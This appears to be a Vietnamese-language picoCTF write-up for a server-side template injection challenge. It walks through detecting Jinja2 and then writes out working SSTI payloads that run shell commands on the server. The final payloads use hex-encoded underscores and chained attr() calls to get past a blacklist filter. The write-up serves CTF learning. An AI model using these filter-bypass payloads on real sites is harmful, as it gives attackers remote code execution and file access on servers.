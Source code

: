 # SSTI2

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image288.png?raw=true)

Truy cập website:

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image289.png?raw=true)

Một thử thách khác liên quan tới lỗ hổng `Server-side Template Injection`. Tôi tiếp tục thử nhập `{{7*7}}` vào field:

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image290.png?raw=true)

Click `OK`:

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image291.png?raw=true)

=> Website có thể dính lỗ hổng `SSTI`, cụ thể tôi biết được template mà website dùng là `Jinja2`. Tôi đã thử nhập payload như bài lab trước nhưng không hoạt động:

    {{config.__class__.__init__.__globals__[‘os’].popen(‘cat flag’).read()}}

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image292.png?raw=true)

Như vậy website đã có 1 biện pháp bảo vệ trước những payload `SSTI` đơn giản. Tôi đã thử làm phức tạp payload hơn 1 chút:

    {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}

Với payload này, tôi đã:

**1. Truy cập vào builtins và __import__ một cách gián tiếp:**
- Dùng `__builtins__` và `__import__` là chiêu phổ biến để import module mới khi `globals()` không có sẵn os.

**2. Dùng encoding để bypass filter:**
- `\x5f` là ký tự `_`, nên:
    - `'\x5f\x5fglobals\x5f\x5f'` => `'__globals__'`
    - `'\x5f\x5fimport\x5f\x5f'` => `'__import__'`
- Đây là kỹ thuật `obfuscation` để bypass blacklist hoặc WAF.

**3. Dùng `filter-safe` cách truy cập attribute và gọi method:**
- Dùng `|attr('name')` để truy cập attribute an toàn, tránh bị chặn cú pháp `.`.

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image293.png?raw=true)

=> Thành công. Như vậy payload cuối cùng để tìm flag sẽ là:

    {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image294.png?raw=true)

